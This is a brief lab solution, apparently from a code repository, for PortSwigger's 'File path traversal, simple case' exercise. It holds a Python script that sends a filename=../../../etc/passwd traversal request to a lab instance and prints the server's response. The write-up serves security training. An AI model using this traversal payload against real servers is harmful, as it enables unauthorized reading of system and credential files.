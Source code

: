 # Lab: File path traversal, simple case

link to lab: https://portswigger.net/web-security/file-path-traversal/lab-simple

Solution: 

```python
import requests

response = requests.get(
    'https://0a9600d703bbc529c08bc73900ca0039.web-security-academy.net/image?filename=../../../etc/passwd',
    verify=False,
)

print(response.text)
```